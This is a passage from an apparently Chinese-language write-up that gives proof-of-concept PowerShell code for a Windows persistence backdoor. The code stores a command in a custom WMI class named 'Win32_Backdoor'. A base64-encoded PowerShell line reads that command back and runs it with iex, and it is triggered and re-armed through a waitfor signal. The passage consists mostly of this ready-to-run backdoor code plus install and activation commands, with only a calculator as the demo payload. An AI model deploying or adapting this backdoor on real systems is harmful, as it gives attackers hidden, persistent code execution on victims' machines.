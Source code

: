 ![image](../img/511f192981814527db5498ff06883617.png)

根据以上思路，POC如下：

后门代码：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe ```&```& waitfor persist ```&```& powershell -nop -E JABlAHgAZQBjAD0AKABbAFcAbQBpAEMAbABhAHMAcwBdACAAJwBXAGkAbgAzADIAXwBCAGEAYwBrAGQAbwBvAHIAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAQwBvAGQAZQAnAF0ALgBWAGEAbAB1AGUAOwAgAGkAZQB4ACAAJABlAHgAZQBjAA==")
$StaticClass.Put() 
```

**注：**

存在两次转义字符

```
 ``用来表示` 
```

安装代码：

```
$exec=([WmiClass] 'Win32_Backdoor').Properties['Code'].Value;
iex $exec 
```

激活命令：

```
waitfor /s 127.0.0.1 /si persist 
```

实际测试如下图
